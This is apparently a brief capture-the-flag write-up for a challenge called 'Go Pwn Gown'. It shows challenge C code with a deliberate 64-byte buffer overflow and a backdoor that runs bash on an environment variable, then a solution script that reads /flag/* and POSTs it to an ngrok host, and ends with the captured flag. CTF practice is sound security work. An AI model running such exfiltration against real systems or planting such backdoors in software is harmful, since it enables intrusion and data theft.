





# Go Pwn Gown (day7)

<p align="center"></p>

````c
void unsafeFunction(char *gown) {
    char buffer[64];
    memcpy(buffer, gown, 128); // UTF8 AMIRIGHT ?!
    printf("Received: %s\n", buffer);
}

void laluBackdoor() {
    char *bash_path = "/bin/bash";
    extern char **environ;
    execle(bash_path, bash_path, "-c", "echo $(${GOWN})", NULL, environ);
}
````

<p align="center"></p>

<p align="center"></p>

<p align="center"></p>

<p align="center"></p>

````bash
#!/bin/bash
cat /flag/* | curl -X POST --data @- http://6.tcp.eu.ngrok.io:13524/
````

Flag : _RM{OffenSkillSaysWhat2024YouGotGowned}_ , thanks _Laluka_ for this challenge !
